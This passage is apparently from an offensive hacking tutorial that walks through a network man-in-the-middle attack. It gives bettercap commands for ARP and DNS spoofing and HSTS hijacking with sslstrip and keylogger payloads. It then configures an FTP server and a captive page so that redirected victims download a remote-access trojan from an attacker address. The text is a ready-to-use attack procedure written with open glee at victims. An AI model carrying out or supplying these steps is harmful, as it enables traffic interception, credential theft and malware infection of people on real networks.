 set arp.spoof.internal true\
&#x20;set dns.spoof.address ATTACKER\_IP\
My example:\
set dns.spoof.address 192.168.2.233\
set hstshijack.log /usr/share/bettercap/caplets/hstshijack/ssl.log\
&#x20;set hstshijack.ignore \*\
&#x20;set hstshijack.targets \*.cn,\*.org, www.\*, \*.com, \*.net\
&#x20;set hstshijack.replacements \*.ce, \*.orq, wvvw.\*,\*.corn,\*.nel\
&#x20;set hstshijack.obfuscate false\
&#x20;set hstshijack.encode true\
\
&#x20;set hstshijack.payloads \*:/usr/share/bettercap/caplets/hstshijack/payloads/sslstrip.pws,\*:/usr/share/bettercap/caplets/hstshijack/payloads/keylogger.pws,\*.google.com:/usr/share/bettercap/caplets/hstshijack/payloads/google.pws,google.com:/usr/share/bettercap/caplets/hstshijack/payloads/google.pws\
The above command "set hstshijack.payloads ..." is all one line so please copy and paste it.\
&#x20;http.proxy on\
&#x20;arp.spoof on\
&#x20;dns.spoof on\
Leave the bettercap window running.\
\
This attack will completely break the web browser and not allow the target to visit any HTTPS or HTTP website. Any web requests will be re-routed to our attacker page. If they type anything into the URL bar in Google Chrome when running this attack Chrome will recommend the HTTP version of what they're looking for and "help" the victim navigate to our web attack page which is great for us!\
\
In order to deliver your malware in the future you would need to edit /var/www/html/index.html to reflect your own file. Remember, in this chapter we copied the \~/MITMf/config/captive/portal.html to /var/www/html/index.html.\
\
For my example my malware will be called "DANGER.exe" and the file is located in "/var/www/html" which is the default Apache2 web server directory. If you had a RAT you would need to put the file into the "/var/www/html" directory and adjust the filename in /var/www/html/index.html to reflect your own RAT executable name. Obviously!\
\
&#x20;We're going to navigate to /var/www/html and run a FTP server delivering the contents of that directory and we're going to alter /var/www/html/index.html to reflect our executable name. This will allow the target to download our malware over FTP since we're re-directing everything web related on the network.\
\
In Kali open up a new Terminal window and type the following:\
cd /var/www/html\
&#x20;python3 -m pyftpdlib -w\
This will run a FTP server on port 2121. Leave this window running.\
\
If you're familiar with python the above command "python3 -m pyftpdlib -w" is the "python -m SimpleHTTPServer 80" equivalent but for FTP. In a nut shell it's a super easy way of bringing up a FTP server without config files and shit. You can script all this shit so it's automatic depending on your coding levels. Basic shit commander Cobra.\
\
\
In Kali open up a new Terminal window and type the following:\
sudo leafpad /var/www/html/index.html\
Change "CaptiveClient.exe" to "ftp://ATTACKER\_IP:2121/YOUR\_FILE.exe"\
My Example:\
[ftp://192.168.2.233:2121/DANGER.exe](ftp://192.168.2.233:2121/DANGER.exe)\
\
\
Save the file and close it.\
\
Now that we have the /var/www/html/index.html file configured (you would need to replace DANGER.exe with your RAT filename. This should be obvious!) the attack is ready. In the future you'd want to run the FTP server before using bettercap.\
\
